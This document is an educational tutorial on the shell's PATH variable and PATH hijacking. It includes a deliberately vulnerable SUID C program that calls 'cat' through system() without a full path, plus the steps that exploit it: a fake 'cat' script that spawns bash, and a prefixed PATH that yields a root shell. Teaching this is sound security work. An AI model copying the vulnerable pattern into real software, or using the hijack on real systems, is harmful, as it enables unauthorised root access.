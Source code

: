 # PATH Hijacking

## What is the PATH?

When you launch a program, for example in the shell, you typically
just write the name of the program. For example, if I want to list out
all the files in a given directory, I can use the *ls* program as
follows

```sh
$ ls
content  public  thumbnail  video
```
Now, how does the shell process know which command to execute?
Remember that in modern operating systems, resources are located in
specific paths of a file system. All sorts of resources are located
like that. Even binaries, which are the programs we use to do
various activities.

This means that before executing the command, the shell needs to
resolve its full path, that is, it needs to know where does the
program reside within the file system. This is where the concept of
a PATH comes in.

**IMPORTANT**: The PATH is an environment variable, found within the
shell and other processes as well, which determines the folders to
look in order to resolve command names into full paths.

In order to print the value of the PATH, within the shell `bash` we
can execute the following command

```sh
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/opt/cuda/bin:/opt/cuda/nsight_compute:/opt/cuda/nsight_systems/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/usr/lib/rustup/bin:/home/leo/utils/:/home/leo/go/bin/
```
Notice here that `echo` is the command used to print stuff to the
console, and `$PATH` is the name of the environment variable which
contains the PATH.

As you can see, the PATH is actually a list of directory paths,
separated with colons. If we were to list out the paths in the
previous output we'd obtain the following list

```
/usr/local/sbin
/usr/local/bin
/usr/bin
/opt/cuda/bin
/opt/cuda/nsight_compute
/opt/cuda/nsight_systems/bin
/usr/lib/jvm/default/bin
/usr/bin/site_perl
/usr/bin/vendor_perl
/usr/bin/core_perl
/usr/lib/rustup/bin
/home/leo/utils/
/home/leo/go/bin/
```

Now, how is PATH used? Simple, when you launch a program without a
full path, such as when we just executed the command *ls*, the shell
will use this list of folders in order to look for the ls binary. It
will start from the first folder, and, until it has found an ls
binary, it will keep looking for further folders, until all of them
have been checked.

In the case of `ls`, it will do the following

1. First it checks if in the folder `/usr/local/sbin` there is the
binary `ls`, that is, it checks for the existence of the file

```
/usr/local/sbin/ls
```

Since there is no such file in our current file system, it keeps
going and checks for the next directory.

2. The second directory is `/usr/local/bin`, and so the shell checks for the existence of the file

```
 /usr/local/bin/ls
```
Since there is no such file in our current file system, it keeps going and checks for the next directory.

3. The third directory is ~/usr/bin~, and so the shell checks for the existence of the file

```
/usr/bin/ls
```

Since there is such file in our current file system, it loads the file in memory and it executes it.
Indeed, notice that if we execute `ls` or we execute `/usr/bin/ls` with its ful path, we get the same output

```sh
$ ls
content  public  thumbnail  video

$ /usr/bin/ls
content  public  thumbnail  video
```

To understand how a given command is resolved, we can use the binary
`which`. This binary uses the PATH in exactly the same we just
described in order to print out the full path of the command.

```
$ which ls
/usr/bin/ls
```

## PATH Hijacking
Having described what is the PATH, we can know understand the
dynamics of the *PATH Hijacking* attack.

Let's say we have the following C program called `reader.c`.

```c
// gcc reader.c -o reader

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

char *VALID_FILES[] = { "01.txt", "02.txt" };
int valid_files_count = 2;

int main(int argc, char **argv) {

  if (argc < 2) {
    fprintf(stderr, "[INFO]: Usage %s <filename>\n");
    return -1;
  }

  char *user_filename = argv[1];

  for (int i = 0; i < valid_files_count; i++) {
    char *valid_filename = VALID_FILES[i];
    int length = strlen(valid_filename);

    if (!strncmp(user_filename, valid_filename, length)) {
      char cmd[42] = {0};
      sprintf(cmd, "cat ./archive/%s", user_filename);
      setuid(0);
      setgid(0);
      system(cmd);
      return 0;
    }
  }

  printf("[INFO]: No file with such names were found.\n");
  
  return 0;
}

```
  
We can compile the program and make it a SUID binary owned by the `root` user as follows

```sh
gcc reader.c -o reader && sudo chown root reader && sudo chmod +s reader
```

As we can see, the program is used to read some files within an
archive directory, where archive contains a bunch of files which can
only be access by root, or by the program itself in read only mode.

```sh
$ sudo tree -L 2
.
├── archive
│   ├── 01.txt
│   ├── 02.txt
│   └── 03.txt
├── notes.org
├── reader
└── reader.c
```

The program just shown is vulnerable to PATH hijacking. Notice how the
program makes use of the `cat` binary in order to print out the
contents of the file. Specifically, notice how cat is called: no full
path is given, therefore the path that used to find the binary will be
computed at runtime using the PATH environment variable. And this is
why the program is vulnerable and can be exploited.

Before calling the binary, an attacker can set a specific environment PATH, and the vulnerable program will use that to find the cat binary. An attacker can then create a malicious binary or script called `cat` and place it within the first folder of the path. When the program will execute, it will find the attacker's malicious code, and not the original cat.

In the example shown above, the attacker can do the following

1. Create a malicous bash script and call it `cat` within the current folder

```sh
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat
chmod +x cat
```
2. Launch the program with a malicious PATH variable

```sh
PATH=.:$PATH ./reader 01.txt
```

3. Enjoy the profit

```
# whoami
root
```

